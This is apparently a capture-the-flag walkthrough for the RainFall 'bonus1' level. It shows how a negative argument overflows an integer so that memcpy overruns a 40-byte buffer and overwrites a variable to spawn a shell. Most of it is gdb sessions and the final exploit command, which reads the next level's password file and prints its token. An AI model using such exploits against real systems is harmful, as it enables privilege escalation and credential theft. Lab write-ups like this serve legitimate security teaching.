

 # Walkthrough bonus1

With the C code, we see that we use argv. agrv[1] is used to define size. This number must be <= 9.   
Which it will be used by memcpy (this size is time by 4).       
argv[2] is the string that will be copied into the buffer of 40 chars.  
To execute "/bin/sh", size must be egal of 0x574f4c46.   

So we want override size by 0x574f4c46. But we have an problem. With argv[1] == 9 we can only write 36 (9 * 4). To override size we need to write 44 char.  

``` bash

(gdb) r -1 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -1 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()

(gdb) i r $eax ecx
eax            0xffffffff	-1
ecx            0xfffffffc	-4
(gdb) p (unsigned int)0xffffffff
$3 = 4294967295
(gdb) p (int)0xffffffff
$4 = -1

```
We can see that with a negative value we have a positive value. It's because we times our number by 4. So we overflow the integer.



```bash
(gdb) r -2147483648 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483648 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()
(gdb) i r $eax ecx
eax            0x80000000	-2147483648
ecx            0x0	0

(gdb) r -2147483637 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483637 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()
(gdb) i r $eax ecx
eax            0x8000000b	-2147483637
ecx            0x2c	44

(gdb) r -2147483637 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483637 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()
(gdb) i r $eax ecx
eax            0x8000000b	-2147483637
ecx            0x2c	44
(gdb) r -2147483637 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483637 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')

Breakpoint 2, 0x0804845a in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
process 3689 is executing new program: /bin/dash
$
```

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print("A" * 40 + "\x57\x4f\x4c\x46"[::-1])')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```